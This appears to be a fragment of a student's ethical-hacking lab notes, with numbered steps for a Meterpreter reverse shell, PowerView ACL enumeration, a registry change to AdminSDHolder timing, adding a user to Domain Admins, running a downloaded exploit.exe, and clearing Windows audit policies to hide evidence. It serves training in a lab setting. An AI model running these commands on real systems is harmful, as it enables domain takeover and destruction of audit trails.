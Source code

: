 8. set payload windows/meterpreter/reverse_tcp
9. exploit
13. getuid 
14. `upload -r /home/attacker/PowerTools-master C:\\Users\Administrator\\`
15. shell
16. `C:\Windows\system32`
17. powershell
18. cd C:\Users\Administrator\Downloads\PowerView
19. Import-Module ./powerview.psm1
20. Get-ObjectAcl -samAccountName "Martin" -ResolveGUIDs
21. REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters \V AdminSDProtectFrequency \T REG_DWORD \F \D 300
22. net group "Domain Admins" Martin /add /domain
**Windows**
10. In **Web Browser** visit **http://10.10.11.10/share**
11. Click & Download **exploit.exe** 
12. Open **exploit.exe**

 ![[Pasted image 20241025225156.png]]
### ==Task 8: Privilege Escalation and Maintain Persistence using WMI==
---
#83

### Task 9: Convert Channels using Convert_TCP
---
use kali a attacker machine and ubantu as victim
wireshark secret message.
#84


# LAB 4: Clear Logs to Hide the Evidence of Compromise
---
### Task 1: View, Enable, and Clear Audit Policies using Auditpol
---
#85
**WINDOWS**
View all audit policies
`audipol /get /category:*`

Enable the audit policies
`audipol /set /category:"system","account logon" /success:enable /failure:enable`

Check whether the audit policies are enable.
`audipol /get /category:*`

Clear the audit policies
`auditpol /clear /y`
